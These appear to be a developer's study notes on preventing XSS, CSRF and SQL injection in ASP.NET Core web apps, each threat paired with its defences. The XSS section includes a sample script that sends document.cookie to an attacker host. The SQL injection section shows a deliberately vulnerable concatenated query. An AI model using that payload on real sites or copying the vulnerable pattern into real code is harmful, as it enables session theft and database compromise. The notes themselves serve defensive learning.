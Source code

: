 # I. Prevent cross-site scripting (XSS attacks) in ASP.NET Core
- how it work: attaker inject a JavaScript scripts into web page. This web will be viewed by another user, the inject script will run on user browser
- often used to steal session token, cookies
- This malicious script runs in the context of the victim’s session with the website and can both send requests and read the responses, including sensitive data like cookies, authentication tokens, and private information.

ex: 
1. Attacker finds a vulnerable input field (e.g., a comment box, search bar, or any field that accepts user input and reflects it on the page without proper sanitization).
2. Attacker injects malicious JavaScript into the field, such as a comment:
The attacker can post this script:
```
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```
3. Users visit the page, and the browser executes the malicious script because it treats the script as part of the web page.
4. The attacker’s script executes in the victim’s browser, potentially stealing sensitive data, modifying the web page, or performing actions on behalf of the victim.
## Common defences against XSS
### 1. Validate input
- Validate and sanitize all input fields to ensure that no malicious scripts can be injected.
### 2. Encoding output
- Properly encode all dynamic data before rendering it in the HTML to ensure special characters (e.g., <, >, &) are escaped.
### 3. HTTP-only cookies:
- set cookies attribute to HttpOnly that make cookie can't me modify by JavaScript

# II. CSRF (Cross-site requets forgery)
- how it work: through untruested website, attacker run some script that trick the user browser to perform some action at another web app (which the victim's is already logged in)
- the trick action could be: submitting a form change email/password, or transferring funds

ex: 
1. you open banking app has address https://abcbanking.com 
2. attacker sen you a link to website https://evilsite.com
3. This malicious website contains code that automatically submits a form (or sends a request) to abcbanking.com to transfer money to the KZ
NOTE: however the attacker can't se the response from abcbanking.com because evilsite.com is not allowed to access this response data, because the browser prevents cross-domain data access due to same-origin policy 
## Common defences against CSRF

### 1. CSRF tokens
- These are unique tokens generated by the server and included in HTML forms or headers. 
- The server verifies that the token sent with a request matches the one it generated. 
- If the token is missing or incorrect, the server rejects the request.
NOTE: Since the attacker cannot access the token (because of the same-origin policy), they cannot include it in a forged request, preventing the attack.

### 2. Use Strict SameSite cookie restrictions
- SameSite is a cookie attribute that restricts how cookies are sent with cross-site requests.
- The SameSite attribute can have the following values:
    - Strict: Cookies are only sent with same-site requests (from the same domain) and never with cross-site requests.
    - Lax: Cookies are sent with top-level navigations (e.g., when a user clicks a link) but not with embedded requests like iframes or AJAX requests.
    - None: Cookies are sent with both same-site and cross-site requests, but the request must be secured using HTTPS.

### 4. User Authentication Re-verification
- Requiring users to re-enter their password or use multi-factor authentication (MFA) before performing sensitive actions (e.g., changing email addresses or making financial transactions) ensures that the action is coming from the authenticated user and not from a forged request.



# III. Prevent SQL injection in ASP.NET Core app
- attacker input a query string to the input, this input later is use for dynamic database queries (which concat the input to the query string)
- to avoid we simply prevent malicious SQL input from being included in executed queries.
example:
```
String query = "SELECT account_balance FROM user_data WHERE user_name = "
             + request.getParameter("customerName");
try {
    Statement statement = connection.createStatement( ... );
    ResultSet results = statement.executeQuery( query );
}

```

## Defenses
### Option 1: Prepared Statement (with Parameterized Queries)
Always bind user inputs as parameters to avoid injecting raw data into SQL queries.
example:
```
String query = "SELECT account_balance FROM user_data WHERE user_name = ?";
try {
  OleDbCommand command = new OleDbCommand(query, connection);
  command.Parameters.Add(new OleDbParameter("customerName", CustomerName Name.Text));
  OleDbDataReader reader = command.ExecuteReader();
  // …
} catch (OleDbException se) {
  // error handling
}
```

### Option 2: Stored Procedures: 
Ensure that user input is passed as parameters to stored procedures rather than concatenating raw SQL strings
### Option 3: Allow-list Input Validation
 It limits user inputs to only those values that are expected and safe. For example, if you expect a user to enter a number, the allow-list can block anything that isn’t a valid number (like SQL keywords or operators).
### Option 4: Object Relational Mapper
Use ORM frameworks (like SQLAlchemy in Python, or Entity Framework in .NET) that abstract away raw SQL queries, reducing the chances of SQL injection